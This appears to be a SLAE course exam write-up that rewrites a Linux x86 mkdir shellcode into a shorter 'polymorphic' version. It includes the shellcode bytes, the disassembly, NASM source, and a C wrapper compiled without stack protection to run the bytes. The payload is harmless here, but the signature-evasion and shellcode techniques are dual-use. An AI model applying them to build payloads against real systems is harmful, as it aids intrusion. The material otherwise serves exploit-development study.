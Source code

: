 # Mkdir

<p style="text-align: justify;">Address of the original shellcode:</p>
- [http://shell-storm.org/shellcode/files/shellcode-542.php](http://shell-storm.org/shellcode/files/shellcode-542.php)

Original source code:
```c


The comment in that file is not correct.. I cut and pasted the shell code
in an existing c source and forgot to adjust it..

/*
 * This shellcode will do a mkdir() of 'hacked' and then an exit()
 * Written by zillion@safemode.org
 *
 */

char shellcode[]=
        "\xeb\x16\x5e\x31\xc0\x88\x46\x06\xb0\x27\x8d\x1e\x66\xb9\xed"
        "\x01\xcd\x80\xb0\x01\x31\xdb\xcd\x80\xe8\xe5\xff\xff\xff\x68"
        "\x61\x63\x6b\x65\x64\x23";


void main()
{

  int *ret;
  ret = (int *)&ret + 2;
  (*ret) = (int)shellcode;
}
```
To illustrate the appearance of the NASM code of the above shellcode, we will use the ndisaasm command.
```nasm
$ echo -ne "\xeb\x16\x5e\x31\xc0\x88\x46\x06\xb0\x27\x8d\x1e\x66\xb9\xed\x01\xcd\x80\xb0\x01\x31\xdb\xcd\x80\xe8\xe5\xff\xff\xff\x68\x61\x63\x6b\x65\x64\x23" | ndisasm -u -

00000000  EB16              jmp short 0x18
00000002  5E                pop esi
00000003  31C0              xor eax,eax
00000005  884606            mov [esi+0x6],al
00000008  B027              mov al,0x27
0000000A  8D1E              lea ebx,[esi]
0000000C  66B9ED01          mov cx,0x1ed
00000010  CD80              int 0x80
00000012  B001              mov al,0x1
00000014  31DB              xor ebx,ebx
00000016  CD80              int 0x80
00000018  E8E5FFFFFF        call dword 0x2
0000001D  6861636B65        push dword 0x656b6361
00000022  64                fs
00000023  23                db 0x23
```
<p style="text-align: justify;">I will try to present my polymorphic shellcode in parts (and finally the whole) in order to explain in detail the changes and improvements I have made.</p>

### Mkdir 

Original code:
```nasm

00000000  EB16              jmp short 0x18
00000002  5E                pop esi
00000003  31C0              xor eax,eax
00000005  884606            mov [esi+0x6],al
00000008  B027              mov al,0x27
0000000A  8D1E              lea ebx,[esi]
0000000C  66B9ED01          mov cx,0x1ed
00000010  CD80              int 0x80
[..]
00000018  E8E5FFFFFF        call dword 0x2        <--- Everything from here means "Push 'hacked#' on top of the stack
0000001D  6861636B65        push dword 0x656b6361
00000022  64                fs
00000023  23                db 0x23
```
Code after changes:
```nasm
  xor eax, eax        ; Clear the EAX register
	add al, 0x27        ; EAX contains the mkdir () system call identifier
	push edi            ; string terminator
	push word 0x6465    ; 'ed' in reverse
	push 0x6b636168     ; 'hack' in reverse
	mov ebx, esp        ; The ECX register contains the address of the arguments on the stack
	mov cx, 0x1ed	      ; file mode, hex(1ed) = dec(493) = oct(755)
	int 0x80            ; Execute system call
```
<p style="text-align: justify;">As we can see, I gave up the JMP-CALL-POP technique in favor of placing a string with the name of the created folder on the stack with a null being a string terminator. This trick allowed to save up to 8 bytes!
</p>

### sys_exit()

Original code:
```nasm
00000012  B001              mov al,0x1
00000014  31DB              xor ebx,ebx
00000016  CD80              int 0x80
```
Code after changes:
```nasm
  add al,0x1          ; EAX = 0, so let's make it 1
	xor ebx, ebx        ; EBX should be 0
	int 0x80            ; Execute exit() syscall
```
<p style="text-align: justify;">Only one line has been changed - the ADD instruction was used instead of the MOV instruction.
</p>

### Full code after changes

```nasm
; Filename: 	mkdir.nasm
; Author:   	Jakub Heba
; Purpose:	  SLAE Course & Exam

global _start			

section .text
_start:
	xor eax, eax        ; Clear the EAX register
	add al, 0x27        ; EAX contains the mkdir () system call identifier
	push edi            ; string terminator
	push word 0x6465    ; 'ed' in reverse
	push 0x6b636168     ; 'hack' in reverse
	mov ebx, esp        ; The ECX register contains the address of the arguments on the stack
	mov cx, 0x1ed	      ; file mode, hex(1ed) = dec(493) = oct(755)
	int 0x80            ; Execute system call
	add al,0x1          ; EAX = 0, so let's make it 1
	xor ebx, ebx        ; EBX should be 0
	int 0x80            ; Execute exit() syscall
```

### Compiling and Execution

```sh
$ ./compile.sh mkdir
[+] Assembling with Nasm ... 
[+] Linking ...
[+] Done!
"\x31\xc0\x04\x27\x57\x66\x68\x65\x64\x68\x68\x61\x63\x6b\x89\xe3\x66\xb9\xed\x01\xcd\x80\x04\x01\x31\xdb\xcd\x80"
```
<p style="text-align: justify;">Shellcode.c wrapper file content:</p>

```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc0\x04\x27\x57\x66\x68\x65\x64\x68\x68\x61\x63\x6b\x89\xe3\x66\xb9\xed\x01\xcd\x80\x04\x01\x31\xdb\xcd\x80";
main()
{

	printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())code;

	ret();

}
```
Execution:
```sh
$ gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
$ ls
compile.sh  shellcode  shellcode.c  template  template.nasm  template.o

$ ./shellcode 
Shellcode Length:  28

$ ls -la
total 44
drwxrwxr-x 3 slae slae 4096 Mar 30 12:45 .
drwxrwxr-x 5 slae slae 4096 Mar 25 05:33 ..
-rwxrwxr-x 1 slae slae  310 Mar 25 13:41 compile.sh
-rw------- 1 slae slae  710 Mar 25 16:00 .gdb_history
drwxr-xr-x 2 root root 4096 Mar 30 12:45 hacked           <------
-rwxr-xr-x 1 root root 7462 Mar 30 12:44 shellcode
-rw-rw-r-- 1 slae slae  287 Mar 30 12:43 shellcode.c
-rwxr-xr-x 1 root root  534 Mar 30 12:43 template
-rw-rw-r-- 1 slae slae  232 Mar 25 16:05 template.nasm
-rw-rw-r-- 1 slae slae  448 Mar 30 12:43 template.o
```

### Summary

Original shellcode length:

- **36 bytes**

Length of polymorphic shellcode:

- **28 bytes**

Difference in length:

- **~22% shorter!**

### Pwned.
